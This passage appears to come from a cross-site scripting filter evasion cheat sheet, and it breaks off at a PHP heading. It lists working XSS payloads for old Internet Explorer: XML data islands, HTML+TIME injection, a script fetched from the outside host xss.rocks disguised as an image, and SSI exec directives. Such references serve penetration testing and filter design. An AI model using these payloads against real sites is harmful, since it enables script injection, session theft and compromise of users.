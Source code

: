 ## XML data island with CDATA obfuscation

This XSS attack works only in IE and Netscape 8.1 in IE rendering engine
mode) - vector found by Sec Consult while auditing Yahoo:

`<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>`  
`<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>`

## Locally hosted XML with embedded JavaScript that is generated using an XML data island

This is the same as above but instead referrs to a locally hosted (must
be on the same server) XML file that contains your cross site scripting
vector. You can see the result here:

`<XML SRC="xsstest.xml" ID=I></XML>`  
`<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>`

## HTML+TIME in XML

This is how Grey Magic hacked Hotmail and Yahoo\!. This only works in
Internet Explorer and Netscape 8.1 in IE rendering engine mode and
remember that you need to be between HTML and BODY tags for this to
work:

`<HTML><BODY>`  
`<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">`  
`<?import namespace="t" implementation="#default#time2">`  
`<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">`  
`</BODY></HTML>`

## Assuming you can only fit in a few characters and it filters against ".js"

you can rename your JavaScript file to an image as an XSS vector:

`<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>`

## SSI (Server Side Includes)

This requires SSI to be installed on the server to use this XSS vector.
I probably don't need to mention this, but if you can run commands on
the server there are no doubt much more serious issues:

`<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->`

## PHP

Requires PHP to be installed on the server to use this XSS vector.
Again, if you can run any scripts remotely like this, there are probably
much more dire issues:
